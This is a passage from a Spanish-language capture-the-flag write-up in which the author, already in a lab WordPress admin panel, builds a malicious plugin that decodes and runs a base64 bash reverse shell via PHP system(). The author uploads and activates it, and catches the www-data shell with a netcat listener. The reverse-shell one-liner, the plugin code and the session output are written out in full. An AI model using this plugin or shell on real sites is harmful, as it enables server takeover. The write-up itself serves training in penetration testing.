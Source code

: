 Vemos que si nos deja y estaremos dentro del `Wordpress` en el panel de administrador.

Crearemos nosotros un plugin de `wordpress` con una `reverse shell` dentro del ella, de la siguiente forma:

```shell
echo "bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" | base64
```

> plugin.php

```shell
nano plugin.php

#Dentro del nano
<?php
/*
Plugin Name: HACKEADO
Description: Plugin para ejecutar comandos del sistema a través de la URL (solo en entorno controlado).
Version: 66666666.0
Author: d1se0
*/
?>

<?php
system("echo 'Base64ReverShell' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

```shell
zip plugin.zip plugin.php
```

Nos vamos a `Plugins` -> `Añadir nuevo plugin` -> `Subir Plugin` -> Dentro de esta seccion le daremos a `Browser...` para seleccionar nuestro plugin malicioso.

Una vez seleccionado y subido, le daremos a `Instalar ahora`, despues le damos otra vez a `plugins` y nos aparecera el nuestro, antes de activarlo estaremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si le daremos al boton `Activar` y volvemos a la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 54120
bash: cannot set terminal process group (30): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c103b3df70e5:/var/www/norc.labs/wp-admin$ whoami
whoami
www-data
```

### Sanitización de shell (TTY)

